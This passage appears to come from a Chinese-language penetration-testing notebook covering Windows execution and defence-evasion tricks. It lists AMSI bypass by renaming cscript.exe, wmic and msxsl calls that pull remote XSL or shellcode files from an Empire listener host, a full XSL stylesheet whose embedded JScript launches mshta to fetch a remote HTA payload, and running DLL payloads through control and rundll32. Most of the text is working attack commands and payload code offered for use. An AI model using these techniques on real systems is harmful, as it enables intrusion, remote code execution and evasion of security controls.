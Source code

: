 	生成的2.txt文件内容替换为var EncodedPayload的值再执行
![image](/assets/Pentest_Note/master/img/138.png)
![image](/assets/Pentest_Note/master/img/139.png)
 ##### 绕过AMSI执行
	>copy c:\windows\system32\cscript.exe amsi.dll
	>amsi.dll evil.js
 #### WMIC
	Empire建立监听，生成windows/launcher_xsl模块的xsl文件保存在web目录
	>wmic process get brief /format:http://192.168.0.107:8080/launcher.xsl
	也可结合mshta使用
```xml
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("mshta http://192.168.0.107:8080/RgNeCv.hta");
	]]> </ms:script>
</stylesheet>

```
 #### Msxsl
	下载
	https://www.microsoft.com/en-us/download/details.aspx?id=21714
	远程执行shellcode
	https://github.com/3gstudent/Use-msxsl-to-bypass-AppLocker/blob/master/shellcode.xml
	>msxls.exe http://192.168.0.107/shellcode.xml http://192.168.0.107/shellcode.xml
	Empire生成shellcode贴到脚本中EncodedPayload位置
![image](/assets/Pentest_Note/master/img/140.png)
 #### CPL
	Kali监听
![image](/assets/Pentest_Note/master/img/141.png)

	编译成DLL
![image](/assets/Pentest_Note/master/img/142.png)
	
	Control执行
	>control C:\Users\Administrator.DC\Desktop\VC6.0green\MyProjects\dll\Debug\dll.dll
![image](/assets/Pentest_Note/master/img/143.png)

	或将DLL后缀改为cpl，双击执行，或rundll32执行
	>rundll32.exe shell32.dll,Control_RunDLL C:\Users\Administrator.DC\Desktop\VC6.0green\MyProjects\dll\Debug\dll.dll
